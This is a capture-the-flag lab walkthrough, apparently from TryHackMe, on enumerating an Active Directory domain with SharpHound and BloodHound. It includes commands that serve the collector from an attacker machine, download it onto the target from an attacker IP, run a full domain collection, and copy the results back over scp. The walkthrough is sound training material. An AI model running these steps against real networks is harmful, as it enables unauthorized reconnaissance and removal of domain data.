 # Through Bloodhound

Bloodhound runs locally on an attacker's machine. The attacker must run a "collector" like sharphound on the target 
to enumerate domain information. After the collector finishes running, it will output a series of .json files for 
import into the Bloodhound interface.

On the attack machine:

    mkdir sharphound
    
    cd sharphound 
    
    wget https://github.com/BloodHoundAD/SharpHound/releases/download/v1.1.0/SharpHound-v1.1.0.zip
    --2022-10-12 14:20:23--  https://github.com/BloodHoundAD/SharpHound/releases/download/v1.1.0/SharpHound-v1.1.0.zip
    ...
    HTTP request sent, awaiting response... 200 OK
    Length: 2138953 (2.0M) [application/octet-stream]
    Saving to: ‘SharpHound-v1.1.0.zip’
    
    SharpHound-v1.1.0.z 100%[===================>]   2.04M  1.91MB/s    in 1.1s    
    
    2022-10-12 14:20:35 (1.91 MB/s) - ‘SharpHound-v1.1.0.zip’ saved [2138953/2138953]
        
Start a server to serve it:

    python -m http.server 80
    Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...

Now `ssh` into target machine using the credentials given:

    ssh kenneth.davies@za.tryhackme.com@thmjmp1.za.tryhackme.com

In the target machine terminal, switch to powershell:

    za\kenneth.davies@THMJMP1 C:\Users\kenneth.davies\Documents>powershell
 
Choose a directory to work from (I used `Documents`, and download the 
`SharpHound-v1.1.0.zip` from the http server on the attack machine:

    PS C:\Users\kenneth.davies\Documents> Invoke-WebRequest http://10.50.16.168/SharpHound-v1.1.0.zip -OutFile SharpHound-v1.1.0.zip

Extract:

    PS C:\Users\kenneth.davies\Documents> Expand-Archive SharpHound-v1.1.0.zip

Enumerate:

    PS C:\Users\kenneth.davies\Documents> cd SharpHound-v1.1.0
 
    PS C:\Users\kenneth.davies\Documents\SharpHound-v1.1.0> .\SharpHound.exe --CollectionMethods All --Domain za.tryhackme.com --ExcludeDCs  2022-10-12T14:49:52.7476245+01:00|INFORMATION|This version of SharpHound is compatible with the 4.2 Release of BloodHound
    ...
    2022-10-12T14:50:42.7872718+01:00|INFORMATION|SharpHound Enumeration Completed at 2:50 PM on 10/12/2022! Happy Graphing!

Get name of results:

    PS C:\Users\kenneth.davies\Documents\SharpHound-v1.1.0> dir
    Directory: C:\Users\kenneth.davies\Documents\SharpHound-v1.1.0

    Mode                LastWriteTime         Length Name
    ----                -------------         ------ ----
    -a----       10/12/2022   2:50 PM         139831 20221012145038_BloodHound.zip
    ...

On the attack machine, use `ssh` to copy the bloodhound results over:

    scp kenneth.davies@za.tryhackme.com@thmjmp1.za.tryhackme.com:C:/Users/kenneth.davies/Documents/SharpHound-v1.1.0/20221012145038_BloodHound.zip .

Fire up `neo4j` and `bloodhound`:

    sudo neo4j start                     
    bloodhound &

Drop the copied over results in the bloodhound window, and play around with options.

| ![Bloodhound](../../_static/images/bloodhound.png)
|:--:|
|  Start playing around and answer the questions. |

* Use `Search for a node...` to find specific users, groups, etc.
* Click on specific properties of an object to visualise it
* Use the Analysis tab to run built-in queries
* ...
